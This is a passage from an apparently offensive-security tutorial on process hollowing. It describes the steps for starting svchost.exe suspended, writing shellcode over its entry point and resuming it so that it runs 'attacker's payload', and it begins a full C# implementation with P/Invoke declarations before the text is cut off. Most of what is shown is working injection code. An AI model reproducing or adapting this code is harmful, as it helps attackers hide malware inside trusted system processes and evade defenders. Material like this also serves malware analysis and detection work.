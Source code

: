 ## 🔹 Step 6 – Resuming Execution

- API: `ResumeThread`
- The suspended thread continues → executes shellcode.
    
    ```csharp
    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern uint ResumeThread(IntPtr hThread);
    
    ResumeThread(pi.hThread);
    ```
    

---

## **🚀 Final Workflow Code (Complete Example)**

1. **CreateProcessW** → start process in suspended state (`svchost.exe`)
2. **ZwQueryInformationProcess** → fetch **PEB** & image base address
3. **ReadProcessMemory** → read PE header & EntryPoint
4. **WriteProcessMemory** → inject malicious shellcode into EntryPoint
5. **ResumeThread** → let process continue → executes attacker’s payload

```csharp
using System;
using System.Runtime.InteropServices;

class Hollowing
{
    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
    struct STARTUPINFO {
        public Int32 cb;
        public IntPtr lpReserved, lpDesktop, lpTitle;
        public Int32 dwX, dwY, dwXSize, dwYSize;
        public Int32 dwXCountChars, dwYCountChars, dwFillAttribute, dwFlags;
        public Int16 wShowWindow, cbReserved2;
        public IntPtr lpReserved2, hStdInput, hStdOutput, hStdError;
    }

    [StructLayout(LayoutKind.Sequential)]
    struct PROCESS_INFORMATION {
        public IntPtr hProcess, hThread;
        public int dwProcessId, dwThreadId;
    }

    [StructLayout(LayoutKind.Sequential)]
    struct PROCESS_BASIC_INFORMATION {
        public IntPtr Reserved1, PebAddress, Reserved2, Reserved3, UniquePid, MoreReserved;
    }

    [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
    static extern bool CreateProcess(string lpApplicationName, string lpCommandLine,
        IntPtr lpProcessAttributes, IntPtr lpThreadAttributes,
        bool bInheritHandles, uint dwCreationFlags,
        IntPtr lpEnvironment, string lpCurrentDirectory,
        [In] ref STARTUPINFO lpStartupInfo,
        out PROCESS_INFORMATION lpProcessInformation);

    [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
    private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass,
        ref PROCESS_BASIC_INFORMATION procInformation,
        uint ProcInfoLen, ref uint retlen);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
```